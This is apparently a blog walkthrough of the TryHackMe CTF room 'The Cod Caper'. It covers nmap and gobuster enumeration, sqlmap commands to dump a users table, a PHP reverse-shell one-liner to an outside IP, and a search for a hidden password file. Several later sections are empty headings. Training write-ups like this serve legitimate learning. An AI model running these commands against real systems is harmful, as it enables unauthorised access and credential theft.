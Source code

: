 ```yaml
---
title: Try Hack Me The Cod Caper
date: 2021-09-13T12:40:13+05:30
lastmod: 2021-09-13T12:40:13+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/tcc.gif # for tryhackMe
simg: /img/tcc.gif

categories:
  - TryHackMe
tags:
  - tryhackme

draft: false
description: TryHackMe Room {The Cod Caper} solved by Animesh Roy. this is a walkthough. read more...

---
```


## OverView

|||
|---|---|
| <script src="https://tryhackme.com/badge/434937"></script>| <a class="twitter-follow-button" href="https://twitter.com/anir0y" data-size="large"> Follow @anir0y<a>|
|The Cod Caper|![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/282c55307eada4ad18a0b06e4d65ff34.jpeg)|
| <b> The Cod Caper [FREE] </b>| [The Cod Caper](https://tryhackme.com/room/thecodcaper)|

## 1: Intro

Hello there my name is Pingu. I've come here to put in a request to get my fish back! My dad recently banned me from eating fish, as I wasn't eating my vegetables. He locked all the fish in a chest, and hid the key on my old pc, that he recently repurposed into a server. As all penguins are natural experts in penetration testing, I figured I could get the key myself! Unfortunately he banned every IP from Antarctica, so I am unable to do anything to the server. Therefore I call upon you my dear ally to help me get my fish back! Naturally I'll be guiding you through the process.

Note: This room expects some basic pen testing knowledge, as I will not be going over every tool in detail that is used. While you can just use the room to follow through, some interest or experiencing in assembly is highly recommended

---

## 02: Host Enumeration

* NMAP
  
     ```bash
     Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 12:56 IST
     Nmap scan report for 10.10.70.241
     Host is up (0.17s latency).
     Not shown: 998 closed ports
     PORT   STATE SERVICE VERSION
     22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
     | ssh-hostkey: 
     |   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
     |   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
     |_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
     80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
     |_http-server-header: Apache/2.4.18 (Ubuntu)
     |_http-title: Apache2 Ubuntu Default Page: It works
     Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
     Nmap done: 1 IP address (1 host up) scanned in 14.41 seconds
     ```

### 02-Flags

|Answer the questions below| ans|
|---|---|
|How many ports are open on the target machine?|`2`|
|What is the http-title of the web server?|`ans on nmap scan`|
|What version is the ssh service?|`ans on nmap scan`|
|What is the version of the web server?|`ans on nmap scan`|

---

<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## 03: Web Enumeration

* gubuster
  
  `gobuster dir -u http://10.10.70.241 -w big.txt -o root.gobuster -x php,txt,html`

---

## 04: Web Exploitation

* Recommended Tool: `sqlmap`

1. Capture the req packet with `burp-suite` and save it as `login.req`
2. run sqlmap `sqlmap -r login.req`

* find usename:password
  
  `sqlmap -r login.req --batch -D users -T users --dump`

---

## 05: Command Execution

* PHP rev shell
  
  `php -r '$sock=fsockopen("10.17.4.40",9001);exec("/bin/sh -i <&3 >&3 2>&3");'`

### 5.1: How many files are in the current directory?

`ls -l /var/www/html` 

### 5.2: Do I still have an account

check `ls -l /home` if pingu exists then ans is yes

### 5.3: What is my ssh password?

`find / -user “www-data” -name “*” 2>/dev/null`

`cat /var/hidden/pass` #password here

---

## 06:  LinEnum

run `linenum` you'll find the ans in `[-] SUID files:` first one is the ans.

---

## 07: pwndbg

---

## 08: Binary-Exploitaion: Manually

---

## 09: Binary Exploitation: The pwntools way

---

## 10: Finishing the job

---

## Task 11: Thank you!

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
